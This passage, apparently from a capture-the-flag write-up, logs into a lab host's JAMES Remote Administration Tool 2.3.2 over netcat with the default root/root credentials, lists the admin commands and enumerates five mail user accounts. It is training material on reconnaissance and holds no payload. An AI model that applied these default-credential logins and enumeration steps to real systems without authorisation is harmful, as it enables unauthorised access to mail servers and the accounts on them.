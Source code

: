 I can connect to 4555 with `nc`, and I’m prompted to login. The default creds of root/root work:

```

root@kali# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands

```

I can get the list of commands with `help`:

```

help
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection

```

I can list users to see five accounts:

```

listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin

```
